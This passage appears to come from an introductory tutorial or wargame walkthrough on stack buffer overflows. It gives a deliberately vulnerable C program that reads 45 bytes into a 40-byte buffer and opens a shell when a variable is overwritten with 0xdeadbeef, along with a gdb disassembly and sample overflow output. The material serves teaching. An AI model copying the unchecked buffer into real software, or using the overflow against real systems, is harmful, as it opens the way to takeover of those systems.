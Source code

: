 ```c
  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     system("/bin/dash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
The actual exploitation of this is fairly trivial.  The fgets function allows us to write 45 bytes of memory into a buffer of size 40.  We won't be doing anything too fancy, but it does allow us to corrupt memory and potentially some of the variables.  Firstly I'd like to take a quick moment to define some terms, namely the stack.

So what exactly is the stack?  Well, it's really just a section of memory that we define as being used to store several important variables and locals with fixed size.  Whenever I refer to the stack, just note that it's a defined block of memory where my variables defined above, like `check` and `buf` are stored.  This makes it simple for the compiler to manage variables and code, as well as allow us to do some fancy tricks if programmers get lazy.  The stack can grow and shrink as execution takes place, but this example will keep it simple. 

Let's open this in gdb and run a disassembly of the main function.  There are better tools for doing this but we'll keep it simple for now.
```gdb
gdb$ disas main
Dump of assembler code for function main:
   0x08048494 <+0>:	push   ebp
   0x08048495 <+1>:	mov    ebp,esp
   0x08048497 <+3>:	and    esp,0xfffffff0
   0x0804849a <+6>:	sub    esp,0x40
   0x0804849d <+9>:	mov    DWORD PTR [esp+0x3c],0x4030201
   0x080484a5 <+17>:	mov    eax,ds:0x804a020
   0x080484aa <+22>:	mov    DWORD PTR [esp+0x8],eax
   0x080484ae <+26>:	mov    DWORD PTR [esp+0x4],0x2d
   0x080484b6 <+34>:	lea    eax,[esp+0x14]
   0x080484ba <+38>:	mov    DWORD PTR [esp],eax
   0x080484bd <+41>:	call   0x8048390 <fgets@plt>
   0x080484c2 <+46>:	mov    eax,0x8048620
   0x080484c7 <+51>:	lea    edx,[esp+0x14]
   0x080484cb <+55>:	mov    DWORD PTR [esp+0x4],edx
   0x080484cf <+59>:	mov    DWORD PTR [esp],eax
   0x080484d2 <+62>:	call   0x8048380 <printf@plt>
   0x080484d7 <+67>:	mov    eax,0x804862c
   0x080484dc <+72>:	mov    edx,DWORD PTR [esp+0x3c]
   0x080484e0 <+76>:	mov    DWORD PTR [esp+0x4],edx
   0x080484e4 <+80>:	mov    DWORD PTR [esp],eax
   0x080484e7 <+83>:	call   0x8048380 <printf@plt>
   0x080484ec <+88>:	cmp    DWORD PTR [esp+0x3c],0x4030201
   0x080484f4 <+96>:	je     0x804850c <main+120>
   0x080484f6 <+98>:	cmp    DWORD PTR [esp+0x3c],0xdeadbeef
   0x080484fe <+106>:	je     0x804850c <main+120>
   0x08048500 <+108>:	mov    DWORD PTR [esp],0x8048638
```

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 
[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 